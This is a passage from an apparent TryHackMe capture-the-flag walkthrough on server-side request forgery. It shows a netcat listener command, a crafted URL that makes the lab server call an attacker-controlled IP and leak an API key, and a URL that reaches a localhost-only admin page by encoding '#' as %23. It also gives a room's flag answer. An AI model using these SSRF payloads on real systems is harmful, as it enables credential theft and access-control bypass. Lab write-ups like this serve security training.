 You need to trick the server into connecting to your own IP by editing the link to replace the original server with your own attack box IP.

- First, open a listener on your machine:
    
    ```
    nc -lvnp 8087
    
    ```
    
- Then, modify the URL like this:
    
    ```
    http://MACHINE_IP:8087/download?server=http://YOUR_ATTACK_BOX_IP:8087&id=75482342
    
    ```
    

After you visit the modified URL, check your terminal. You’ll see a request come in from the server, and inside that request, there will be an API key.

**Answer:** `THM{Hello_Im_just_an_API_key}`

### 4. **Can you use SSRF to access the admin page?**

Yes, you can. Since only `localhost` is allowed to access the admin page, you can make the server request it by itself.

But there’s a trick. You have to encode the `#` symbol so the link doesn’t break. Normally, the server sees `id=` and thinks it’s part of the link, so we encode `#` as `%23`.

Use this modified URL:

```
http://MACHINE_IP:8087/download?server=http://localhost:8087/admin%23&id=75482342

```

That tells the app to connect to its own `/admin` page. When it does, it should return some kind of flag or secret from the admin area. That’s how you bypass the restriction and access the admin area using SSRF.
<style>
.center img {display:block; margin:auto;}
.wrap pre{white-space: pre-wrap;}
</style>
